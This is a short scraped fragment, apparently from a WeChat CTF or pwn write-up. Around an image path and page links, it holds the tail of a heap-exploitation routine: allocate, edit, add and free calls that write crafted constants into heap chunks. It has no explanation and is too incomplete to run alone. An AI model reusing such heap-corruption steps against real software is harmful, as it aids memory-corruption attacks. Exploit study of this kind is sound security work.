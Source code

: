 ```
EditAlloc(0,4);
Edit(0,0,0x2f2f6e69); // 0x8602
EditAlloc(0,8);
Edit(0,0,0x54576873); // 0x8602
EditAlloc(0,12);
Edit(0,0,0x583b6a5f); // 0x8602
EditAlloc(0,16);
Edit(0,0,0x00050f99); // 0x8602
EditAlloc(0,20);

Add(0x78);
Add(0x78);
Edit(3,0,0x10000);
Edit(3,1,0);
Del(1);
}
```  
  
[](http://mp.weixin.qq.com/s?__biz=MzkyNTY3Nzc3Mg==&mid=2247484713&idx=1&sn=28c29e069e8bd8ceb0bb9b8724563a15&chksm=c1c3a48af6b42d9c05802480e731f8054250576e425306e620b110db89c7b6ea9451be2b4976&scene=21#wechat_redirect)  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/TL4Y9UAcgruibhUn2nvLrs9mLNiaB1EywEeVJJJ3lvticFQQIqlOgoLUbB7FDAZGsoICZWUK2CnX8VV5mHBogoNqQ/640?wx_fmt=jpeg&from=appmsg "")  
  
